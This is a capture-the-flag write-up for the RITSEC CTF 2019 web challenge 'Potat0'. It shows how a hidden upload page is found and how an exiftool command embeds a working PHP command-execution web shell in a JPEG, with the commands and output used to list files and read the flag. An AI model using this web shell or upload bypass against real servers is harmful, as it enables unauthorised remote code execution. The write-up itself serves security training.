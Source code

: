 # RITSEC CTF 2019 – Potat0

* **Category:** web
* **Points:** 158

## Challenge

> http://ctfchallenges.ritsec.club:8003/
>
> Flag format is RS_CTF{}
>
> Author: Pablo Potat0

## Solution

Connecting to the web site, an interesting HTML comment can be discovered.

```html
<article>
<link rel="stylesheet" type="text/css" href="style.css">
<a href="https://facebook.com/groups/RITSEC.group/" target="_blank">
  <svg version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px"
	 width="30px" height="30px" viewBox="0 0 30 30" enable-background="new 0 0 30 30" xml:space="preserve">
   <path id="facebook" fill="#ffffff" d="M17.252,11.106V8.65c0-0.922,0.611-1.138,1.041-1.138h2.643V3.459l-3.639-0.015
	c-4.041,0-4.961,3.023-4.961,4.961v2.701H10v4.178h2.336v11.823h4.916V15.284h3.316l0.428-4.178H17.252z"/>
  </svg>
</a>

<a href="https://instagram.com/_ritsec_" target="_blank">
  <svg version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px"
	 width="30px" height="30px" viewBox="0 0 30 30" enable-background="new 0 0 30 30" xml:space="preserve">
   <path id="instagram" fill="#ffffff" d="M22.107,3.415H7.893c-2.469,0-4.479,2.007-4.479,4.477v4.73v9.486c0,2.469,2.01,4.479,4.479,4.479h14.215
	c2.469,0,4.479-2.01,4.479-4.479v-9.486v-4.73C26.586,5.421,24.576,3.415,22.107,3.415 M23.393,6.086l0.512-0.004v0.511v3.416
	l-3.916,0.014l-0.012-3.928L23.393,6.086z M11.693,12.622c0.742-1.028,1.945-1.7,3.307-1.7s2.564,0.672,3.307,1.7
	c0.484,0.67,0.771,1.49,0.771,2.379c0,2.248-1.828,4.078-4.078,4.078c-2.248,0-4.078-1.83-4.078-4.078
	C10.922,14.112,11.211,13.292,11.693,12.622 M24.328,22.107c0,1.225-0.994,2.219-2.221,2.219H7.893
	c-1.225,0-2.219-0.994-2.219-2.219v-9.486h3.459C8.832,13.356,8.664,14.159,8.664,15c0,3.494,2.842,6.335,6.336,6.335
	s6.336-2.842,6.336-6.335c0-0.842-0.17-1.645-0.467-2.379h3.459V22.107z"/>
  </svg>
</a>
 
  
</a>
<!-- upload and photos not yet linked -->
</article>
```

So you can discover the existence of two more pages:
* [http://ctfchallenges.ritsec.club:8003/upload.php](http://ctfchallenges.ritsec.club:8003/upload.php)
* [http://ctfchallenges.ritsec.club:8003/photos.php](http://ctfchallenges.ritsec.club:8003/photos.php)

Basically the web application allows the upload of an image that will be displayed into a gallery. The upload functionality is vulnerable because it doesn't check the content of the image and it doesn't convert it in order to remove unwanted content.

As a consequence, a [shell](shell.php.jpeg) can be inserted into the image.

```
root@m3ss4p0:~# cp cat.jpeg shell.php.jpeg
root@m3ss4p0:~# exiftool -DocumentName="<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?>" shell.php.jpeg
    1 image files updated
```

The image is renamed, but it can be referenced to execute commands remotely.

```
http://ctfchallenges.ritsec.club:8003/uploads/10_0_0_37.php.jpeg?cmd=ls%20-al%20..

total 44
drwxr-xr-x 3 www-data www-data  4096 Nov 15 13:31 .
drwxr-xr-x 1 root     root      4096 Apr  3  2019 ..
-rw-r--r-- 1 www-data www-data 11321 Apr  3  2019 index.html
-rw-rw-r-- 1 root     root      1713 Nov 15 13:23 index.php
-rwxrwxr-x 1 root     root      2001 Nov 15 13:23 lib.php
-rwxrwxr-x 1 root     root      1871 Nov 15 13:23 photos.php
-rw-rw-r-- 1 root     root       809 Nov 15 13:23 style.css
-rwxrwxr-x 1 root     root      1331 Nov 15 13:23 upload.php
drwxr-xr-x 2 www-data www-data  4096 Nov 15 17:58 uploads



http://ctfchallenges.ritsec.club:8003/uploads/10_0_0_37.php.jpeg?cmd=find%20/%20-name%20flag*%202%3E%20/dev/null

/home/flag.txt
/tmp/npm-6-00351b95/registry.npmjs.org/flagged-respawn
/usr/local/lib/node_modules/gulp/node_modules/flagged-respawn
/usr/local/lib/node_modules/grunt-cli/node_modules/flagged-respawn
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags
/sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags
/sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags



http://ctfchallenges.ritsec.club:8003/uploads/10_0_0_37.php.jpeg?cmd=cat%20/home/flag.txt

RS_CTF{FILE_UPLOAD_ISN'T_SECURE}
```

The flag is the following.
```
RS_CTF{FILE_UPLOAD_ISN'T_SECURE}
```